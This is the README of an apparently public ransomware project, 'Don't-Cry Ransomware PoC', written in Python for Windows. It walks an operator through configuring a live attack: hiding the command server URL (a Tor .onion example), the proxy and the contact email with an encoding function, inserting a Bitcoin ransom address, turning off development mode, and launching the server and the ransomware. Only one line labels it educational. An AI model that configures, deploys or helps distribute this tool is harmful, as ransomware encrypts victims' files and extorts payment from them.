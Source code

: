 <h1 align="center">Don't-Cry Ransomware PoC</h1>
  
<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Requires-Rust%20%3E%3D%201.87.0-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
  <img src="https://img.shields.io/github/stars/memecoder12345678/DCry-Ransomware?style=social" alt="Stars">
</div>

![DCry](imgs/DCry.png)
PoC ransomware written in Python 💀💀💀

## Usage
* Open the [`DCry.py`](src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` similarly with your encoded email address. 
  ```python 
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()   
  ```
* Set `dev_mode = False` to disable development mode.
* Open the [`Decryptor.py`](src/Decryptor.py) file.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/Server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCry.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/Decryptor.py
  ```

## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.

## FAQ 
* See details in [FAQ.md](docs/FAQ.md)

## Contributing  
* See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code Of Conduct  
* See our community standards in [CODE_OF_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security
* See the security policy in [SECURITY.md](docs/SECURITY.md)


## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).

